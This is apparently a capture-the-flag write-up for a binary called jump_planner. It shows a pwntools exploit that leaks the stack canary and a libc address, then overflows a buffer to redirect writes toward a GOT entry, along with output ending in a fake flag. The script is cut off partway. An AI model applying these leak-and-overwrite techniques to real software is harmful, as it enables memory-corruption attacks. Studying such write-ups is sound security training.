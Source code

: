 # Solve

## Flag

Running on remote gives us the flag:
```python
[+] Opening connection to 127.0.0.1 on port 5000: Done
canary: 0x479ed93830c90e00
libc leak: 0x7f27b9e71d90
libc base: 0x7f27b9e48000
[*] Switching to interactive mode
Jumping to Year 3119728718 at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Current Year: 3118924144
Backdoor Unlocked!
battelle{this_is_a_fake_flag}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 5000
```

## Full code

```python
from pwn import *
context.binary = elf = ELF("./jump_planner")
libc = ELF("./libc.so.6")

# io = elf.process()
# io = process("./run")
io = remote("127.0.0.1",5000)

# Leak Canary
io.sendlineafter(b">> ",b"3")
io.sendlineafter(b": ",b"5")
io.readuntil(b"to Year ")
canary = int(io.readuntil(b" ",drop=True))
print("canary:",hex(canary))

# Leak Libc
io.sendlineafter(b">> ",b"3")
io.sendlineafter(b": ",b"7")
io.readuntil(b"to Year ")
libc_leak = int(io.readuntil(b" ",drop=True))
print("libc leak:",hex(libc_leak))
libc.address = libc_leak -0x29d90
print("libc base:",hex(libc.address))


def do_write(value,target):
    # sets up one write, calls next time called
    io.sendlineafter(b">> ",b"4")
    io.sendlineafter(b": ",str(value).encode())
    io.sendlineafter(b": ",b"0")
    p  = b"A"*0x28
    p += p64(canary)
    p += p64(target)[:-1] #overwrite rbp sp that rbp-0x34 is target of write

    io.sendlineafter(b": ",p)

#GOT
strlen_got =  libc.address+0x219098 +0x34 # needed to start cahin
```